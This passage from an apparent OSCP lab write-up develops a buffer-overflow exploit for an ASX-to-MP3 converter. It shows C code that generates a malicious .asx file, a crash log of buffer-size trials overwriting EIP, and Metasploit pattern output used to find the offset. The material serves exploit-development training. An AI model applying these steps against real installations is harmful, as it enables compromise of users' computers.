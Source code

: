 ```c
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```

We have an access violation at EIP 41414141. Try smaller buffer
![5e729a47cc2f08a2ebd693c87da3b84d.png](:/c096dd8535ae4957a1d0110238e43620)

Buffer size of 325, and it results in another access violation at EIP 41414141. Try smaller.
![a5d45f70a60b07658c812210a761163b.png](:/b7d3b62f68914e8684d0d63da58a53d0)

Buffer size 125, and it results in an unknown media file error. Try a bigger buffer.
![334cef886a8ad6edda0e77147e07d0bc.png](:/94846fe7674e48218ac44cda995da8c9)

Buffer size 225, and we get unknown media file error again. Try a size between 225-325.
![334cef886a8ad6edda0e77147e07d0bc.png](:/94846fe7674e48218ac44cda995da8c9)

Buffer size 275, and we get an access violation at EIP 41414141. Next try a smaller number between 225-275
![8d70fa70986be4d1cc9de22be6631b48.png](:/85e6128103ec4217a9ffed3b5bebae0c)

Buffer size 250, we get an access violation at EIP 41414141. Next try a number between 225-250
![2264980c6325f4a11b2e648bc760c801.png](:/c55eba9bd9bd4897a984d71b16e8911a)

Buffer size 240. We get the unknown media file error. Next try a number between 240-250
![334cef886a8ad6edda0e77147e07d0bc.png](:/94846fe7674e48218ac44cda995da8c9)

Buffer size 245. We get an access violation at 00414141
![9cea3edf31a7eb901033e5fe512e2458.png](:/2ffac17dcf1641779305cedde1f5ec53)


### Verify offset
So buffer size 250 is when we get the last crash with EIP 41414141. Use msf to create a unique string of length 250 to determine the exact offset.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter/determine_offset$ msf-pattern_create -l 250 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```
